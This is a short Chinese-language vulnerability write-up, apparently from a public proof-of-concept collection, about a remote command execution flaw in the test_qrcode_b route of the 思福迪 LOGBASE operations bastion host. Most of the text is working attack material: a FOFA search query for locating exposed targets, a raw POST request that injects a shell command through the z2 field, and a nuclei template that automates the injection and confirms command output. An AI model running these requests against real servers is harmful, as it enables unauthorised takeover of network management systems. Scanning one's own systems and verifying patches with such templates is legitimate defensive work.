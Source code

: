 ## 思福迪运维安全管理系统RCE漏洞
思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞，可以导致服务器被攻击者远控。

## 影响版本
```
思福迪-LOGBASE
```

## fofa
```
app="思福迪-LOGBASE"
```

## poc
```
POST /bhost/test_qrcode_b HTTP/1.1
Host: BaseURL
User-Agent: Go-http-client/1.1
Content-Length: 23
Accept-Encoding: gzip
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: BaseURL

z1=1&z2="|id;"&z3=bhost
```

## nuclei poc
```

id: SAFETY-test_qrcode_b-rce

info:
  name: 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞
  author: fgz
  severity: critical
  description: '思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞，可以导致服务器被攻击者远控。'
  tags: 2023,SAFETY,LogBase,思福迪,rce
  metadata:
    max-request: 3
    fofa-query: app="思福迪-LOGBASE"
    verified: true

http:
  - method: POST
    path:
      - "{{BaseURL}}/bhost/test_qrcode_b"
    headers:
      Content-Type: application/x-www-form-urlencoded
      Connection: close
      Referer: "{{BaseURL}}"
      Accept-Encoding: gzip
    body: 'z1=1&z2="|id;"&z3=bhost'
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body,'uid')"

```

